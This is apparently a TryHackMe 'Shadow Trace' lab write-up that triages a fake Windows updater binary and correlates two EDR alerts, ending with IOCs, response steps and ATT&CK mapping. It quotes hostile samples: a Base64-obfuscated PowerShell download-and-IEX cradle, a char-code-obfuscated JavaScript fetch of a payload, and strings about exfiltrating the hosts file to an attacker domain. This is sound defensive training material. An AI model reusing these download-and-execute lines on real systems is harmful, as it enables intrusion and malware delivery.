



# Shadow Trace — Fake Windows Updater: File Analysis & Alert Correlation

| Item | Detail |
|------|--------|
| Platform | TryHackMe — SOC Level 1 path (challenge) |
| Room | [Shadow Trace](https://tryhackme.com/room/shadowtrace) |
| Category | Malware triage · IOC extraction · Alert analysis |
| Difficulty | Easy |
| Date | 23 Nov 2026 |
| Status | ✅ Completed — 3/3 tasks |

> **Scenario:** night shift, only analyst on duty. A suspicious `windows-update.exe` was found on a user's machine and the EDR fired two alerts. Analyse the file, extract IOCs, correlate the alerts.

---

## 1. File analysis (Windows DFIR VM)

Sample: `C:\Users\DFIRUser\Desktop\windows-update.exe`. Tools: PowerShell + Sysinternals (`sigcheck`, `strings`).

```powershell
cd ~\Desktop
Get-FileHash windows-update.exe            # SHA-256
cd "..\DFIR Tools\SysinternalsSuite"
.\sigcheck64 -accepteula -a ..\..\Desktop\windows-update.exe     # signature, machine type, entropy
.\strings64 -n 4 ..\..\Desktop\windows-update.exe | sls http,dll,=,thm
.\strings64 -n 4 ..\..\Desktop\windows-update.exe | sls .com,.thm,.net,.org -SimpleMatch
```

**sigcheck:** unsigned, no publisher/company/description (a real Windows update would be Microsoft-signed), link date 10/3/2025, **MachineType 64-bit**, entropy 5.789.



**strings** revealed the behaviour and IOCs:
- `http://tryhatme.com/update/security-update.exe` — second-stage download (typo-squat of *tryhackme*)
- `tryhatme.com/VEhNe3lvdV9nMHRfc29tZV9JT0NzX2ZyaWVuZH0=` — Base64 in the path → decodes to the flag
- `responses.tryhatme.com` — attacker domain
- `external-attacker.thm:25` — outbound connection on port 25
- `[+] Hosts file exfiltrated to http://` — data exfiltration
- Imports incl. **`WS2_32.dll`** (Winsock sockets), `WININET.dll` (`HttpOpenRequestA`/`HttpSendRequestA`), `urlmon.dll`



```bash
echo VEhNe3lvdV9nMHRfc29tZV9JT0NzX2ZyaWVuZH0= | base64 -d   # THM{...}
```

| Question | Answer |
|----------|--------|
| Architecture | `64-bit` |
| SHA-256 | `b2a88de3e3bcfae4a4b38fa36e884c586b5cb2c2c283e71fba59efdb9ea64bfc` |
| URL IOC | `http://tryhatme.com/update/security-update.exe` |
| Domain IOC | `responses.tryhatme.com` |
| Decoded flag | `THM{...}` *(redacted)* |
| Socket library | `ws2_32.dll` |

## 2. Alert analysis



**Alert 1 — Suspicious PowerShell execution (powershell.exe, WIN-SRV-01 / CORPsvc_backup)**
```powershell
(new-object system.net.webclient).DownloadString(
  [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl"))) | IEX
```
Base64 → **`https://tryhatme.com/dev/main.exe`** — classic download-and-execute in memory.

**Alert 2 — Suspicious browser download (chrome.exe JavaScript)**
`fetch([104,116,116,112,...].map(c=>String.fromCharCode(c)).join(''))` — URL hidden as char codes.
Decoded → **`https://reallysecureupdate.tryhatme.com/update.exe`**, saved as **`test.txt`** (masquerading).

```python
''.join(map(chr,[104,116,116,112,115,58,47,47, ...]))
```

| Question | Answer |
|----------|--------|
| Malicious URL (powershell.exe) | `https://tryhatme.com/dev/main.exe` |
| Malicious URL (chrome.exe) | `https://reallysecureupdate.tryhatme.com/update.exe` |
| File saved by chrome.exe | `test.txt` |

---

## IOC summary

| Type | Value |
|------|-------|
| SHA-256 | `b2a88de3e3bcfae4a4b38fa36e884c586b5cb2c2c283e71fba59efdb9ea64bfc` |
| Domain | `tryhatme.com`, `responses.tryhatme.com`, `reallysecureupdate.tryhatme.com`, `external-attacker.thm` |
| URL | `/update/security-update.exe`, `/dev/main.exe`, `/update.exe` |
| Network | TCP/25 to `external-attacker.thm` |
| Host / account | `WIN-SRV-01` / `CORPsvc_backup` (service account — high priority) |

## Recommended actions

Isolate WIN-SRV-01, block all `tryhatme.com` domains at proxy/DNS, hunt the hash fleet-wide, reset `CORPsvc_backup`, escalate to L2 (exfiltration of the hosts file confirmed in the binary).

## Key takeaways

1. "Update" binaries that are **unsigned** with no version info are an instant red flag.
2. `strings` alone gave URLs, domains, behaviour messages and imports — always start there.
3. Attackers hide indicators with Base64 and char-code arrays; decoding is part of triage.
4. Correlate: the same typo-squatted domain appears in the binary and in both EDR alerts → one campaign.

## MITRE ATT&CK mapping

| Technique | ID |
|-----------|----|
| Masquerading | T1036 |
| PowerShell | T1059.001 |
| JavaScript | T1059.007 |
| Ingress Tool Transfer | T1105 |
| Obfuscated Files or Information | T1027 |
| Exfiltration Over C2 Channel | T1041 |
